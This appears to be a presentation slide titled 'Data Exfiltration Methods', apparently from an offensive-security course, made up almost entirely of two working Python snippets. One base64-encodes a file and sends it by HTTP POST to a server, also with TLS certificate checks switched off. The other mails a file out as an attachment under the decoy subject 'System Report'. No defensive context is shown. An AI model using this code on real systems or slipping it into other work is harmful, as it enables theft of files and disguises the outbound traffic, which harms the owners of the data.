 layout: default
---

# Data Exfiltration Methods

<div class="grid grid-cols-2 gap-8">

<div>

## 📤 Network-Based Exfiltration

### 🌐 HTTP/HTTPS Exfiltration
```python
# HTTP POST exfiltration
import requests
import base64

def exfiltrate_file(file_path, server_url):
    with open(file_path, 'rb') as f:
        data = base64.b64encode(f.read()).decode()
    
    payload = {'data': data, 'filename': file_path}
    requests.post(server_url, data=payload)

# HTTPS with SSL verification bypass
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
requests.post(server_url, data=payload, verify=False)
```

### 📧 Email Exfiltration
```python
# SMTP email exfiltration
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.base import MIMEBase
from email import encoders

def email_exfiltrate(file_path, email_server, from_addr, to_addr):
    msg = MIMEMultipart()
    msg['From'] = from_addr
    msg['To'] = to_addr
    msg['Subject'] = "System Report"
    
    with open(file_path, "rb") as f:
        part = MIMEBase('application', 'octet-stream')
        part.set_payload(f.read())
        encoders.encode_base64(part)
        part.add_header('Content-Disposition', f'attachment; filename= {file_path}')
        msg.attach(part)
    
    server = smtplib.SMTP(email_server, 587)
    server.send_message(msg)
```
